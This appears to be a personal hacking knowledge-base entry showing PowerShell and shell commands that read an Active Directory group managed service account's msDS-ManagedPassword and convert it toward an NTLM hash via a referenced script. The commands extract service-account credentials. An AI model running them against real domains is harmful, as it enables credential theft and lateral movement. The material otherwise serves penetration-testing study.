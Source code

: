 # active directory  GMSA group managed service account read NTLM hash with powershell + python
```powershell
$gmsa = Get-ADServiceAccount -Identity GMSAccount -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
echo $mp
```
```bash
# managed_password is the output of `echo $mp`
cat managed_password | awk '{ printf("%.2x", $1) }' > managed_password.hex
~/kb/hacking/windows/convert-msds-managed-password-to-ntlm-hash.py
```

# Related

- [20221003151134](/zet/20221003151134/README.md) active directory  GMSA group managed service account
- ~/kb/hacking/windows/windows-active-directory-and-privilege-information.md

Tags:

    #hacking #windows #windows 

